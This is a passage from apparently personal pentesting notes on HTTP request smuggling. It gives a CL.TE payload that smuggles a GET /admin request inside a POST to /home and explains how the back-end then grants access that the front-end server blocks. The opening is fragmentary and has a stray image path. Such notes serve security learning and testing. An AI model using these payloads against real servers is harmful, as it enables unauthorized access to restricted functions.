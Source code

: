 ```http
```

`7b` -> all chars from `GET` until `x=`

`Content-Legth: 4` -> `7` `c` `\r` `\n`

{% hint style="info" %}
**Note**: Update Content-Length must be unchecked
{% endhint %}

## <mark style="color:yellow;">Exploitation</mark> <a href="#using-http-request-smuggling-to-bypass-front-end-security-controls" id="using-http-request-smuggling-to-bypass-front-end-security-controls"></a>

### <mark style="color:yellow;">Bypass front-end security controls</mark> <a href="#using-http-request-smuggling-to-bypass-front-end-security-controls" id="using-http-request-smuggling-to-bypass-front-end-security-controls"></a>

<mark style="color:yellow;">**CL.TE**</mark>

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

When you go to `/home`, the following request will be made&#x20;

```http
GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

* The front-end server sees two requests here, both for `/home`, and so the requests are forwarded to the back-end server.&#x20;
* The back-end server sees requests for `/home` and `/admin`, assumes they've passed front-end controls, and grants access to the restricted URL.

### <mark style="color:yellow;">Revealing front-end request rewriting</mark> <a href="#revealing-front-end-request-rewriting" id="revealing-front-end-request-rewriting"></a>
